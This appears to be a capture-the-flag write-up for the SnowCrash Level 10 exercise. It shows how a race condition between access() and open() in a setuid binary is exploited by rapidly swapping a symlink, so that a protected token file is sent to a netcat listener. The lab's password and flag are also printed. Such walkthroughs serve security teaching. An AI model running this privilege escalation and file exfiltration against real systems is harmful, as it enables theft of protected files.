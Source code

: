 # Level 10

## Vulnerability
Privilege escalation - symlink

Access call

## Context
We find a binary and a token
```
level10@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```
When we run the binary it tells us it tells us it sends given file to host.
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

## Solution

Can we find a host port hint in the binary?
```
level10@SnowCrash:~$ strings level10
...
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
...
```
In a second terminal lets use Netcat to listen on this port.
```
level10@SnowCrash:~$ nc 6969 -l
```
Back in the first terminal, if we create a file and send it to ourselves, it arrives in the second terminal.
```
level10@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level10@SnowCrash:~$ ./level10 /dev/shm/hi {VM_IP}
Connecting to {VM_IP}:6969 .. Connected!
Sending file .. wrote file!
```
To access the token, we find a potential weakness in the binary's use of ```access```.
```
level10@SnowCrash:~$ nm -u level10
...
         U access@@GLIBC_2.0
...
```
```man 2 access``` briefly describes [the vulnerability](https://stackoverflow.com/questions/7925177/access-security-hole)

> Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because  the  user  might
       exploit  the  short time interval between checking and opening the file to manipulate it.

So lets create an infinite loop which switches a symbolic link between the binary and the token.
```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/symlink; ln -fs ~/token /tmp/symlink; done
```
Then run the binary on the symbolic link.
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/symlink {VM_IP}; done
```
Then when we listen, sometimes its garbage, but sometimes we read the token!
```
level10@SnowCrash:~$ nc 6969 -l
woupa2yuojeeaaed06riuj63c
```
Great!
```
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
